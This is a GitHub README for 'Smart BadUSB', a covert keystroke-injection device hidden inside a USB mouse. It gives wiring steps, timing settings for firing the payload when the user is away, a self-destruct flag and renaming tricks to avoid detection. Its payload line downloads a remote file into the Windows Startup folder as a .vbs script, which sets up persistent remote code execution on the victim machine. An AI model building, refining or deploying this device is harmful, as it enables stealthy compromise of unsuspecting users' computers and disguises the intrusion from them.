 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Wiring How-To</h2>
<p>This section provides detailed, step-by-step instructions on how to integrate the Arduino into the mouse hardware along with a USB hub and a photodiode. Follow these steps carefully, and refer to the wiring diagram for visual guidance.</p>

<ol>
    <li><strong>Preparing the Mouse Cable:</strong> Remove the USB connector from the mouse motherboard. Cut off the end connector, then strip the four wires (data+, data-, positive, and ground).</li>
    <li><strong>Wiring the Mouse to the USB Hub:</strong> Connect these four wires to the USB_IN line on the USB hub, labeled on the back side of the hub. Ensure the connections match the standard USB layout:
        <ul>
            <li><strong>Red:</strong> Positive wire, carries 5V direct current.</li>
            <li><strong>Black:</strong> Ground wire.</li>
            <li><strong>White:</strong> Positive data (D+).</li>
            <li><strong>Green:</strong> Negative data (D-).</li>
        </ul>
    </li>
    <li><strong>Connecting the Arduino:</strong> Solder four wires to a micro USB solderable plug and connect these wires to another set of USB pins on the USB hub. Be mindful of matching the wire connections correctly. Connect the micro USB plug to the Arduino.</li>
    <li><strong>Reconnecting the Mouse USB:</strong> Solder four additional wires to the bottom pads where the USB connector was originally attached to the mouse, and connect these wires to another set of USB pins on the USB hub. Ensure correct wiring alignment.</li>
    <li><strong>Wiring the Photodiode:</strong> Solder the positive lead of the photodiode (the longer one) to a 120-ohm resistor, then connect this lead to pin A2 on the Arduino. Solder the other, shorter side of the photodiode to ground.</li>
    <li><strong>Positioning the Photodiode:</strong> Position the photodiode so that its top faces the internal mouse LED to capture lighting changes. Adjust the <code>activeSensorValue</code> based on the brightness of the LED, which may vary between mouse models. This adjustment can be made by adding a serial debug statement to continuously print out the sensor value.</li>
    <li><strong>Securing Components:</strong> Glue the components in place atop the mouse motherboard. Depending on the mouse model, you may need to modify the plastic housing inside the mouse (using clippers or a Dremel) to accommodate the new components.</li>
</ol>

<p>Ensure all connections are secure and double-check for any potential shorts. For more clarity, see the included wiring diagram:</p>
<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/wiring.png?raw=true" alt="Wiring Diagram">

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Renaming the Arduino Device for Obfuscation</h2>
<p>To further disguise your Smart BadUSB device, you can rename its identification to something less suspicious, such as "USB Device". This process involves using the Musinou hardware library to customize the USB device name.</p>

<h3>Steps to Rename Your Arduino Device:</h3>
<ol>
    <li><p><strong>Download the Musinou Hardware Library:</strong> Download and extract the Musinou hardware configuration files from <a href="https://liveelectronics.musinou.net/code/mididevicename/">this link</a> and place them under <code>/Users/username/Documents/Arduino/hardware/</code> on your computer.</p></li>
    <li><p><strong>Modify Device Settings:</strong> Close your Arduino IDE if it's open. Navigate to <code>/Users/username/Documents/Arduino/hardware/musinou/avr/</code> and open the <code>boards.txt</code> file. Locate the lines for your Arduino model, for example:</p>
        <pre>micromusinou.build.vid=0x2340
micromusinou.build.pid=0x8030
micromusinou.build.usb_product="Arduino Micro Musinou"</pre>
        <p>Change the <code>usb_product</code> value to a generic name, in this case we'll make it "USB Device".</p>
    </li>
    <li><p><strong>Save Changes and Reopen the IDE:</strong> Save the modified <code>boards.txt</code> file. Reopen the Arduino IDE, and select "USB Device" as the board.</p></li>
    <li><p><strong>Upload Your Code:</strong> Upload your existing Smart BadUSB code to the Arduino. This process will install the code under the new device name, making it appear as a generic "USB Device" in system reports and connected devices lists.</p></li>
    <li><p><strong>Verify Device Name:</strong> Connect the Arduino to a computer. The device should now display with the new name "USB Device".</p></li>
</ol>

<p>This renaming technique adds an extra layer of stealth, making the Smart BadUSB less noticeable and suspicious when connected to a host computer.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>SmartBadUSB_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
